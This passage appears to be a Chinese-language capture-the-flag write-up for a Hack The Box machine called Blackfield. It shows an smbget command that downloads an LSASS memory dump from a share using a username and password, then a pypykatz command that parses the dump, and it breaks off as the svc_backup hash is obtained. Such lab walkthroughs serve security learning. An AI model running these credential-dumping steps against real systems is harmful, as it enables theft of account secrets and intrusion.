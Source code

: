 然后，我尝试了各种易于搜索的选项，但能够使用`smbget`进行搜索，这就像中小企业的`wget`:

```
smbget smb://10.10.10.192/forensic/memory_analysis/lsass.zip -U=audit2020%password123\!
```

使用 7z 检查`lsass.zip`的内容:

![](img/3d964daeb9716c1824d5de3fdc372b57.png)

它确实包含一个名为`lsass.DMP`的文件。

然后我使用`[pypykatz](https://github.com/skelsec/pypykatz)`解析转储文件:

```
pypykatz lsa minidump /home/sif0/htb/boxes/Blackfield-10.10.10.192/forensic-share/lsass.DMP
```

我立刻得到了`svc_backup`的散列值:
